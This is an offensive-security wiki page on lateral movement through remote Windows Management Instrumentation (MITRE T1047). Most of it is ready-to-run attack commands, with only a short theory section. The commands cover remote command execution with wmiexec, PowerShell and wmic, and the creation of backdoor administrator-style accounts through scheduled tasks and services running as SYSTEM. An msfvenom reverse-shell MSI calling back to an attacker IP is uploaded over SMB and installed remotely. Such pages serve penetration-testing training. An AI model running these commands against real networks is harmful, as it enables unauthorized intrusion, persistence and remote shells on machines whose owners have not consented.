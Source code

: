 ```yaml
---
description: MITRE ATT&CK™  Windows Management Instrumentation - Technique T1047
---
```


# Remote WMI

## Theory

Windows Management Instrumentation (WMI) provides a standardized way for querying and managing various elements of a Windows operating system. It allow administrators to perform standard management tasks that attackers can abuse to perform lateral movements.

When using WMI remotely, the client application establishes a connection to the WMI service on the remote Windows machine. This connection is made using **DCOM (Distributed Component Object Model)** as the underlying transport protocol. The client initiates an RPC (Remote Procedure Call) connection to communicate with the WMI DCOM infrastructure on the remote system.

Once the DCOM connection is established, the [MS-WMI](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-wmi/c0088a94-1107-48a5-8d4d-cd16d34de5ef) protocols (Microsoft WMI Extensions to DCOM) comes into play. **MS-WMI protocols provides additional functionality that is specific to WMI operations** over the DCOM protocol. These extensions enhance DCOM to handle WMI-specific tasks such as executing WMI queries, invoking methods, and retrieving system information.

{% hint style="success" %}
This method is much more discreet than the one used by psexec, smbexec and the other main tools in the impacket suite.
{% endhint %}

## Practice

### Remote Process Creation Using WMI

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/fortra/impacket)'s [wmiexec](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) script give you a semi-interactive shell by leveraging DCOM and the MS-WMI protocol.

```bash
#Execute commands over MS-WMI
wmiexec.py <domain>/<username>:<password>@<target>
```
{% endtab %}

{% tab title="Windows - Powershell" %}
We can spawn a process on a remote target using wmi and powershell cmdlets

#### Powershell v1+ (2006)

```powershell
#Create PSCredentials and execute commands on remote target
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force));
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-WmiMethod -ComputerName "TARGET" -Credential $credential -Class Win32_Process -Name Create -ArgumentList $Command
```

#### Powershell v3+ (2012)

```powershell
#Create CimSession and execute commands on remote target
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force)))) -ErrorAction Stop;
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
We can spawn a process on a remote target using wmic.exe

```bash
wmic.exe /node:TARGET /user:Administrator /password:Mypass123 process call create "cmd.exe /c calc.exe" 
```
{% endtab %}
{% endtabs %}

### Remote MSI Installation Using WMI

{% tabs %}
{% tab title="Windows - Powershell" %}
We can install a MSI package on a remote target using wmi and powershell cmdlets. Let's create a malicious MSI using msfvenom and upload it to a share :

```bash
#Generate an evil package
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f msi > evil64.msi

#Upload it to a share
smbclient -c 'put evil64.msi' -U <USER> '//TARGET/C$'
```

#### Powershell v1+ (2006)

```powershell
#Create PSCredentials and install MSI on remote target
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force));
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\Windows\evil64.msi") -ComputerName "TARGET" -Credential $credential
```

#### Powershell v3+ (2012)

```powershell
#Create CimSession and install MSI on remote target
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force)))) -ErrorAction Stop;
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\evil64.msi"; Options = ""; AllUsers = $false}
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
We can install a MSI package on a remote target using wmic.exe. Let's create a malicious MSI using msfvenom:

```bash
#Generate an evil package & host it on SMB server
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f msi > evil64.msi

#Upload it to a share
smbclient -c 'put evil64.msi' -U <USER> '//TARGET/C$'
```

Execute following commands

```bash
#Install MSI on remote target
wmic.exe /node:TARGET /user:DOMAIN\USER /password:PASSWORD product call install PackageLocation=c:\evil64.msi
```
{% endtab %}
{% endtabs %}

### Remote Scheduled Tasks Creation Using WMI

{% tabs %}
{% tab title="Windows - Powershell" %}
We can create scheduled tasks on a remote target using wmi and powershell cmdlets.

#### Powershell v3+ (2012)

```powershell
#Create CimSession and scheduled task, start it
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force)))) -ErrorAction Stop;
$Action = New-ScheduledTaskAction -CimSession $Session -Execute "cmd.exe" -Argument "/c net user munra22 aSdf1234 /add";
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "MyTask";
Start-ScheduledTask -CimSession $Session -TaskName "MyTask";

#Delete the task
Unregister-ScheduledTask -CimSession $Session -TaskName "MyTask"
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
We can create scheduled tasks on a remote target using wmic.exe

{% hint style="danger" %}
In Windows 8 and higher, you can only create scheduled jobs with WMI if the registry key **`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration`** has a value **`EnableAt=1`** of type **`REG_DWORD`**. Therefore, this technique is unlikely to be found in the wild.
{% endhint %}

```powershell
#Create a scheduled task & start it
wmic.exe /node:TARGET /user:DOMAIN\USER /password:PASSWORD path Win32_ScheduledJob create Command="net user schTaskUser Pass123 /add",DaysOfMonth=1,DaysOfWeek=1,InteractWithDesktop=False,RunRepeatedly=False,StartTime="********143000.000000-420"
 
#Delete the task
wmic.exe /node:TARGET /user:DOMAIN\USER /password:PASSWORD path Win32_ScheduledJob where "JobiD like '1'" call Delete
```
{% endtab %}
{% endtabs %}

### Remote Service Creation Using WMI

{% tabs %}
{% tab title="Windows - Powershell" %}
We can create a service on a remote target using wmi and powershell cmdlets.

#### Powershell v1+ (2012)

```powershell
#Create PSCredentials and a service
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force));
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList @($false,"WMI Created Service",[byte]::Parse("1"),$null,$null,"WMICreatedService","net user wmiSvcUser Pass123 /add",$null,[byte]::Parse("16"),"Manual","NT AUTHORITY\SYSTEM","") -ComputerName TARGET -Credential $credential

#Create an handle to the service and Start it
(Get-WmiObject -Class Win32_Service -Filter "name='WMICreatedService'" -ComputerName TARGET -Credential $credential).StartService()

#Finaly stop and delete it
(Get-WmiObject -Class Win32_Service -Filter "name='WMICreatedService'" -ComputerName TARGET -Credential $credential).StopService()
(Get-WmiObject -Class Win32_Service -Filter "name='WMICreatedService'" -ComputerName TARGET -Credential $credential).Delete()
```

#### Powershell v3+ (2012)

```powershell
#Create CimSession and a service
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force)))) -ErrorAction Stop;
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{ Name = "MyService"; DisplayName = "MyService"; PathName = "net user munra2 Pass123 /add"; ServiceType = [byte]::Parse("16"); StartMode = "Manual" }

#Create an handle to the service and Start it
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'MyService'"
Invoke-CimMethod -InputObject $Service -MethodName StartService

#Finaly stop and delete it
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
We can create a service on a remote target using wmic.exe.

```powershell
#I didn't find a way to create services using wmic.exe
#Contcat me if you did

#Start it
wmic.exe /node:TARGET /user:DOMAIN\USER /password:PASSWORD path Win32_Service where "name like 'WMICreatedService'" call startservice

#Delete it
wmic.exe /node:TARGET /user:DOMAIN\USER /password:PASSWORD path Win32_Service where "name like 'WMICreatedService'" call Delete
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}

{% embed url="https://www.ired.team/offensive-security/lateral-movement/wmi-via-newscheduledtask" %}

{% embed url="https://www.ired.team/offensive-security/lateral-movement/wmi-+-msi-lateral-movement" %}
